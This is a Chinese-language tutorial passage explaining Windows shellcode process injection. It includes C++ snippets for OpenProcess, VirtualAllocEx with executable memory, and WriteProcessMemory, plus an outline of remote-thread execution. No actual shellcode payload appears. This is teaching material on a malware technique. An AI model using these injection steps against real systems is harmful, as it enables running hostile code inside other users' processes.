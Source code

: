 Shellcode 注入是最基本的进程注入形式之一，其目标是将一小段位置无关的机器码 (Shellcode) 注入目标进程并执行。

从较高层面看，Shellcode 注入可分为四个主要步骤：

1. **打开目标进程**: 以期望的访问权限（通常是所有访问权限 `PROCESS_ALL_ACCESS`）打开目标进程。
2. **分配内存**: 在目标进程的虚拟地址空间中为即将注入的 Shellcode 分配一块内存区域。
3. **写入 Shellcode**: 将 Shellcode 的字节码写入到目标进程中已分配的内存区域。
4. **执行 Shellcode**: 在目标进程中创建一个新的线程（远程线程）来执行写入的 Shellcode。

**API 调用步骤详解**:

- 步骤 1: 打开目标进程 (OpenProcess)
    
    使用 OpenProcess API 打开由命令行参数（例如 PID）指定的目标本地进程。
    
    C++
    
    ```
    // HANDLE processHandle;
    // DWORD targetPID = atoi(argv[1]); // 假设 argv[1] 是目标进程的 PID 字符串
    
    processHandle = OpenProcess(
        PROCESS_ALL_ACCESS,     // 请求所有可能的访问权限
        FALSE,                  // 目标句柄通常不被子进程继承
        targetPID               // 目标进程的 PID
    );
    // if (processHandle == NULL) { /* 错误处理 */ }
    ```
    
- 步骤 2: 为 Shellcode 分配内存 (VirtualAllocEx)
    
    使用 VirtualAllocEx API 在目标进程中分配内存。dwSize 参数通常使用 sizeof(shellcode) 来获取 Shellcode 的实际字节大小。
    
    C++
    
    ```
    // LPVOID remoteBuffer;
    // char shellcode[] = { /* ... shellcode bytes ... */ };
    
    remoteBuffer = VirtualAllocEx(
        processHandle,          // 已打开的目标进程句柄
        NULL,                   // 由系统选择分配地址 (通常设为 NULL)
        sizeof(shellcode),      // 要分配的内存区域大小 (Shellcode 的大小)
        (MEM_RESERVE | MEM_COMMIT), // 保留并提交页面
        PAGE_EXECUTE_READWRITE  // 内存保护属性：可执行、可读、可写
    );
    // if (remoteBuffer == NULL) { /* 错误处理 */ }
    ```
    
- 步骤 3: 将 Shellcode 写入内存 (WriteProcessMemory)
    
    使用 WriteProcessMemory API 将 Shellcode 写入到上一步在目标进程中分配的内存区域。
    
    C++
    
    ```
    // SIZE_T bytesWritten;
    WriteProcessMemory(
        processHandle,          // 目标进程句柄
        remoteBuffer,           // 目标进程中已分配的内存区域的基址
        shellcode,              // 指向要写入的 Shellcode 数据的指针
        sizeof(shellcode),      // 要写入的字节数
        NULL                    // (可选) 指向接收实际写入字节数的变量的指针，设为 NULL 则忽略
    );
    // if (bytesWritten != sizeof(shellcode)) { /* 错误处理 */ }
    ```
    